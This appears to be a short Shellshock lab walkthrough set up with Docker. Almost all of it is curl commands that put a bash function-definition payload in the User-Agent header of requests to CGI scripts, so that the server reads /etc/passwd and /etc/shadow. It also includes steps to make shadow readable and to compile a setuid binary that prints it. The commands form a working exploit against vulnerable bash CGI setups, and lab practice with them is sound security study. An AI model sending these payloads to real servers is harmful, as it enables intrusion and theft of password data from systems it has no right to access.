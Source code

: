 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/
curl http://127.0.0.1:8080/cgi-bin/info
curl http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/info

cd /usr/lib/cgi-bin/
gcc -o show-shadow cat.c
chmod u+s show-shadow
curl -H "user-agent: () { :; }; echo; echo; /usr/lib/cgi-bin/show-shadow" http://127.0.0.1:8080/cgi-bin/info